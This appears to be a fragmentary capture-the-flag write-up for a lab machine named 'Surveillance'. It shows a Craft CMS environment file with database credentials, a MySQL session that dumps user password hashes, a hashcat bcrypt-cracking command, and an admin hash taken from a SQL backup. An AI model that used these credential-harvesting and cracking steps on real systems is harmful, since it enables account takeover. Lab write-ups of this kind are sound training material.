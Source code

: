 ```bash
# The environment Craft is currently running in (dev, staging, production, etc.)
CRAFT_ENVIRONMENT=production

# The secure key Craft will use for hashing and encrypting data
CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_

# Database connection settings
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

# General settings (see config/general.php)
DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=false

PRIMARY_SITE_URL=http://surveillance.htb/

```

```bash
www-data@surveillance:~/html/craft$ mysql -u craftuser -p

MariaDB [craftdb]> select user, password from users;
ERROR 1054 (42S22): Unknown column 'user' in 'field list'
MariaDB [craftdb]> select users, password from users;
ERROR 1054 (42S22): Unknown column 'users' in 'field list'
MariaDB [craftdb]> select email, password from users;
---

$2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe


```
`$2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe`
admin
```bash
┌──(pwn㉿kali)-[~/Surveillance]
└─$ hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force 
 nothing to worry about skip


```

```bash
cat surveillance--2023-10-17-202801--v4.4.14.sql

`INSERT INTO 'users'` sql command

INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
/*!40000 ALTER TABLE `users` ENABLE KEYS */;
UNLOCK TABLES;
commit;

```
